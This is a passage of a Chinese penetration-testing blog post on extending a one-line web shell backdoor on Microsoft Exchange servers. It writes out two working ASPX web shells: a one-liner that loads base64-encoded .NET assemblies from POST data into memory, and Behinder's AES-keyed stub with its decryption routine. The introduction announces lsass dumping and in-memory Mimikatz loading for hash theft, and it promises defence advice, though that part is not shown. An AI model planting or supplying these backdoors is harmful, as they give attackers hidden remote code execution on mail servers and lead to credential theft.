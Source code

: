 ```yaml
---
layout: post
title: 渗透基础——Exchange一句话后门的扩展
---
```



## 0x00 前言
---

在上一篇文章[《渗透基础——Exchange一句话后门的实现》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%90%8E%E9%97%A8%E7%9A%84%E5%AE%9E%E7%8E%B0)介绍了两种Exchange一句话后门(内存加载.net程序集和文件写入)，本文将要对Exchange一句话后门的功能进行扩展，以导出lsass进程的口令hash为例，介绍内存加载PE文件的实现方法，开源测试代码，分析利用思路，给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- Exchange一句话后门的编写
- 通过内存加载.net程序集实现导出lsass.exe进程的dmp文件
- 通过内存加载PE文件实现内存加载Mimikatz并解析指定位置的dmp文件
- 开源代码
- 防御建议

## 0x02 Exchange一句话后门的编写
---

### (1)基本的实现代码

示例代码如下：

```
<%@ Page Language="C#" %><%System.Reflection.Assembly.Load(Convert.FromBase64String(Request.Form["demodata"])).CreateInstance("Payload").Equals("");%>
```

代码会判断是否带有POST请求的参数`demodata`，如果存在会将POST请求中参数`demodata`的内容作base64解密，在内存加载并调用名为Payload的实例

### (2)[冰蝎](https://github.com/rebeyond/Behinder)的实现代码

默认启动代码如下：

```
<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b"); byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>
```

提取其中使用的解密代码如下：

```
public static string Decrypt(string str, string key)
{
    Byte[] toEncryptArray = Encoding.UTF8.GetBytes(str);           
    Byte[] toEncryptKey = Encoding.UTF8.GetBytes(key);
    Byte[] resultArray = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(toEncryptKey, toEncryptKey).TransformFinalBlock(toEncryptArray, 0, toEncryptArray.Length);
    return Encoding.UTF8.GetString(resultArray);
}
```
